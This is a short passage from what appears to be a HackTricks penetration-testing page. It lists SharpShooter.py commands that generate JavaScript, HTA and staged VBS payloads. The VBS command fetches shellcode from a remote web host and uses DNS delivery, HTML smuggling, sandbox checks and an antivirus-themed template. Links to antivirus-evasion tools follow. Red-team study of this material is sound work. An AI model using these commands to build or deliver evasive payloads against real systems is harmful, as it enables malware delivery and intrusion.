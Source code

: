 ```bash
# Javascript Payload Stageless:
SharpShooter.py --stageless --dotnetver 4 --payload js --output foo --rawscfile ./raw.txt --sandbox 1=contoso,2,3

# Stageless HTA Payload:
SharpShooter.py --stageless --dotnetver 2 --payload hta --output foo --rawscfile ./raw.txt --sandbox 4 --smuggle --template mcafee

# Staged VBS:
SharpShooter.py --payload vbs --delivery both --output foo --web http://www.foo.bar/shellcode.payload --dns bar.foo --shellcode --scfile ./csharpsc.txt --sandbox 1=contoso --smuggle --template mcafee --dotnetver 4

# Donut:
https://github.com/TheWover/donut

# Vulcan
https://github.com/praetorian-code/vulcan
```
### अधिक

{% embed url="https://github.com/persianhydra/Xeexe-TopAntivirusEvasion" %}

<details><summary><a href="https://cloud.hacktricks.xyz/pentesting-cloud/pentesting-cloud-methodology"><strong>☁️ HackTricks Cloud ☁️</strong></a> -<a href="https://twitter.com/hacktricks_live"><strong>🐦 Twitter 🐦</strong></a> - <a href="https://www.twitch.tv/hacktricks_live/schedule"><strong>🎙️ Twitch 🎙️</strong></a> - <a href="https://www.youtube.com/@hacktricks_LIVE"><strong>🎥 Youtube 🎥</strong></a></summary></details>
